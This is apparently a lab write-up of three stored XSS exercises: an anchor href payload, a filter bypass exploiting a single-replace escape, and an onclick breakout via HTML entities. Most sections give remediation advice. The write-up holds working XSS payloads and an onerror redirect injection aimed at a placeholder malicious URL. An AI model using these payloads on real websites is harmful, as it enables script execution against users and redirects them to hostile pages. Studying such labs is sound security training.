  _**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_  
  This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I use the search function in the inspection tab to look for the website I enter. And I find:
     ~~~
     Result: <a id="author" href="Website.com">Name</a>
     ~~~

  3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
     ~~~
     Website: javascript:alert('Zebra!')
     Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
     ~~~
   
  </details>
  -

  _**2. Stored DOM XSS**_  
  In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)
     ```javascript
     function escapeHTML(html) {
         return html.replace('<', '&lt;').replace('>', '&gt;');
     }
     ```

     {: .box-note}
     **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

  2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
     ~~~
     Payload: <><img src="x" onerror="prompt('I am escaped!')">
     Rendered:
     <p>
       &lt;&gt;
       <img src="x" onerror="prompt('I am escaped!')">
     </p>
     ~~~

  3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS.

  _**Suggestion**_
  1. Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description))
  2. Deploy [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

  </details>
  -

  _**3. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**_  
  In this instance, I discover a Stored XSS vulnerability in the comment feature, specifically within the onclick event handler of anchor (`<a>`) elements. User input (from the “Website” field) is embedded directly into the JavaScript code inside an HTML attribute without applying proper context-specific encoding or sanitization. I was able to bypass the escaping and trigger the prompt by encoding my payload as an HTML entity.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I look into the inspection tab and pull out the syntax
     ```javascript
     <a id="author" href="Website"
     onclick="var tracker={track(){}};tracker.track('Website');">User_Name</a>
     ```
     
  3. I try to break out of the single quote in the `onclick` event, so when the user clicks an external link on the website, it will trigger the `onclick` event.
     But I notice that my single quote is escaped (`\'`), so the prompt isn't executed.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//)"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">User_Name</a>
     ```
     {: .box-note}
     **Note:** The user input is used inside the `tracker.track()` call, enclosed in single quotes. So I close the first statement (`');`), insert the testing payload, then close the second statement (`prompt();`). Lastly, I use double forward slashes (`//`) to comment out the rest of the syntax.
     
  4. I use an additional backslash to neutralize the backslash that's meant to escape the single quote (`\'`), but it is also escaped (`\\\'`).

  5. To bypass this, I use [Cyberchef](https://cyberchef.io/#recipe=To_HTML_Entity(false,'Named%20entities')&input=Jyk7cHJvbXB0KCk7Ly8) to HTML-encode my payload. 
     ~~~
     Plain-text: ');prompt();//
     HTML-Entity: &apos;&rpar;&semi;prompt&lpar;&rpar;&semi;&sol;&sol;
     ~~~

  6. After submitting the website with the encoded payload appended, I successfully bypassed the filter. I can trigger the prompt by clicking the website’s external link, which proves the stored XSS vulnerability.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">tes</a>
     ```

  _**Suggestion**_
  1. Use JS and HTML attribute [context-aware output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) before rendering untrusted data inside event handlers or inline scripts. Avoid embedding untrusted user input directly into inline JavaScript.
  2. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in the “Website” field.
  3. Avoid writing event handlers directly inline in the HTML (e.g., `<button onclick="doSomething()">`), [separate the structure (HTML) from behavior (JavaScript)](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Events#using_addeventlistener).
  4. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restricts script execution to trusted sources only.

  </details>
  -

</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>
